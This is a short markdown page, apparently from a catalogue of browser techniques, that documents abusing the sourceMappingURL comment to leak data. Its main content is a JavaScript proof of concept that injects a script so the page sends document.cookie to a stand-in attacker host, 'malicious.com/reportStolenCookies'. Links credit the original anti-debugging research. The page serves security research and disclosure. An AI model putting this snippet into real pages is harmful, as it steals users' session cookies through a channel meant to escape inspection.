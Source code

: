 # SourceMappingURL

### POC

```javascript
function  smap(url, data)  {
    const script = document.createElement('script');
    script.textContent =  `//# sourceMappingURL=${url}?data=${JSON.stringify(data)}`;
    document.head.appendChild(script);
    script.remove();
}

smap('https://malicious.com/reportStolenCookies',  {cookie: document.cookie});
```
### Resources

- [Original research and fully detailed explanation](https://weizman.github.io/page-js-anti-debug-1/) [[Gal Weizman](https://weizman.github.io/)]
- [Demo site](https://us-central1-smap-251411.cloudfunctions.net/index) [[Gal Weizman](https://weizman.github.io/)]
